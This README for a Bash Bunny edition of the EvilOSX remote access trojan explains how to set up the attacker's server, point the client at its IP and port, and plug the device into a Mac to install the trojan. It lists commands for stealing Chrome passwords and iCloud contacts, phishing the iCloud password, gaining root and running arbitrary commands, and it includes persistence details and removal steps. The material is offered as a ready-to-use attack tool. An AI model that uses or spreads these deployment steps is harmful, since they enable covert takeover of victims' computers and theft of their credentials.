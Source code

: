 # untitled_EVILOSX

````
 +  ______       _  _   ____    _____ __   __ 
 + |  ____|     (_)| | / __ \  / ____|\ \ / /
 + | |__ __   __ _ | || |  | || (___   \ V / 
 + |  __|\ \ / /| || || |  | | \___ \   > <  
 + | |____\ V / | || || |__| | ____) | / . \ 
 + |______|\_/  |_||_| \____/ |_____/ /_/ \_\\
 + untitled_ bash bunny edition    /   stekole
`````

** Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. ** 
** Accessing a computer system or network without authorization or explicit permission is illegal. **


## Features
 * Client reconnects automatically/persistence 
 * ECM_ETHERNET and HID attack
 * Emulate a simple terminal instance.
 * Sockets are encrypted with CSR via OpenSSL.
 * No dependencies (pure python).
 * Retrieve Chrome passwords.
 * Retrieve iCloud contacts.
 * Attempt to get iCloud password via phishing.
 * Show local iOS backups.
 * Download and upload files.
 * Retrieve find my iphone devices.
 * Attempt to get root via local privilege escalation (<= 10.10.5).
 * Auto installer


## Configuration


### Server

 To prep your server you will need to download and follow the install instructions from EVILOSX. 
 
 On your server, download the EvilOSX code and run your server. 
  ````
      git clone https://github.com/Marten4n6/EvilOSX.git && cd EvilOSX
      ./Server 
  ````
and type your listening port (1337)

### Client

Before you deploy your bash bunny, update your configuration in the EvilOSX.py file

At the bottom of the file you will see a server and port variable 

Set these to your server IP and listening port

````
  #########################
  SERVER_HOST = "10.99.99.16"
  SERVER_PORT = 1337
  #########################
````


## Usage

Plug in your bash bunny and wait until the script has finished running. 

You should see the client connect to the server

````
root@kali:~/git/EvilOSX# ./Server.py 
  ______       _  _   ____    _____ __   __
 |  ____|     (_)| | / __ \  / ____|\ \ / /
 | |__ __   __ _ | || |  | || (___   \ V / 
 |  __|\ \ / /| || || |  | | \___ \   > <  
 | |____\ V / | || || |__| | ____) | / . \ 
 |______|\_/  |_||_| \____/ |_____/ /_/ \_\
 
[?] Port to listen on: 1337
[I] Type "help" to get a list of available commands.
> help
help              -  Show this help menu.
status            -  Show debug information.
clients           -  Show a list of clients.
connect <ID>      -  Connect to the client.
exit              -  Close the server and exit.
> clients
[I] 1 client(s) available:
    0 = client_hostname
> connect 0
[I] Connected to "client_hostname", ready to send commands.
````


Some of the other features can be found in the help menu. I have not tried them all

````
help              -  Show this help menu.
status            -  Show debug information.
clients           -  Show a list of clients.
connect <ID>      -  Connect to the client.
get_info          -  Show basic information about the client.
get_root          -  Attempt to get root via local privilege escalation.
download <path>   -  Downloads the file to the local machine.
upload <path>     -  Uploads the file to the remote machine.
chrome_passwords  -  Retrieve Chrome passwords.
icloud_contacts   -  Retrieve iCloud contacts.
icloud_phish      -  Attempt to get iCloud password via phishing.
itunes_backups    -  Show the user's local iOS backups.
find_my_iphone    -  Retrieve find my iphone devices.
screenshot        -  Takes a screenshot of the client.
kill_client       -  Brutally kill the client (removes the server).
exit              -  Exits the session.
Any other command will be executed on the connected client.
````

## Removal of Tool

The file gets added to the following directory - and startup file is added to the LaunchAgents directory
````
rm -rf ~/Library/Containers/.EvilOSX/
launchctl unload ~/Library/LaunchAgents/com.apple.EvilOSX.plist && rm -rf ~/Library/LaunchAgents/com.apple.EvilOSX.plist
````

## Defence 
 * disable the command-space short key for spotlight or disable spotlight all together if not needed

## Todo

## Issues
 * I ran into a few issues with the "Build" of the python script.
 If the default one in this payload doesnt work, regenerate a new EvilOSX.py
 
 Run ./BUILDER and enter the appropriate information: 
 

 ![](http://i.imgur.com/NQRPFXS.png)

After, copy this to your switch payload

## Thanks
* [@Marten4n6](https://github.com/Marten4n6/EvilOSX)
* [YOURMOM](Check my room)
